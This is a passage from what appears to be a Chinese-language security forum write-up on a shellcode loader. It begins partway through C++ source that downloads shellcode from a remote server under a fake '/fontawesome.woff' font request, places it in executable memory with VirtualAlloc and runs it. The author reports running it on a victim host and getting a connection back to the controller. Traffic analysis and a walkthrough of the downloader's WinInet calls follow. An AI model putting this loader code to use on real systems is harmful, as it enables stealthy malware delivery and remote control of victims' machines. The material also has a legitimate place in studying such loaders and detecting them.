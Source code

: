 ```C++
        DWORD bytesRead;
        if (!InternetReadFile(request, buffer, bufSize, &bytesRead)) {
            exit(0);
        }
        if (bytesRead == 0) break;
        if (payloadSize + bytesRead > capacity) {
            capacity *= 2;
            byte* newPayload = (byte*)realloc(payload, capacity);
            payload = newPayload;
        }
        for (DWORD i = 0; i < bytesRead; i++) {
            payload[payloadSize++] = buffer[i];
        }
    }
    byte* newPayload = (byte*)realloc(payload, payloadSize);

    InternetCloseHandle(request);
    InternetCloseHandle(connection);
    InternetCloseHandle(session);

    struct Shellcode out;
    out.data = payload;
    out.len = payloadSize;
    return out;
}

void Execute(Shellcode shellcode) {
    void* exec = VirtualAlloc(0, shellcode.len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode.data, shellcode.len);
    ((void(*)())exec)();
}
```

编译为 x64 release 版本，放置在受害主机上执行，成功上线。  
![p9aHRAA.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-581fedcd39c14d6f41ce725f16d18b1560ed3e29.png)

### 通信流量分析

首先是发送带有.woff的 url，请求下载shellcode，接着通过7000+个TCP请求后，成功下载完成，后续建立TLS连接。  
![p9aHIc8.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-ad5297e81861d710d60fe331d8ee62252ecd6bbc.png)

### 代码分析

分为两部分，第一部分是下载器，在C++中，使用 WinInet 库实现 HTTP 请求。

1. 使用`InternetOpen`函数打开一个Internet会话，设置了一个用户代理字符串，用于伪装浏览器类型。
2. 使用`InternetConnect`函数连接到指定的主机和端口，创建一个Internet连接。
3. 使用`HttpOpenRequest`函数创建一个HTTP请求，指定了请求的方法为GET，请求的URL为`/fontawesome.woff`。
4. 使用`HttpSendRequest`函数发送HTTP请求，下载指定URL中的数据。
5. 如果下载失败，重试3次，每次间隔3秒钟。
6. 如果下载成功，将下载的数据保存为一个`Shellcode`结构体，并返回该结构体。
    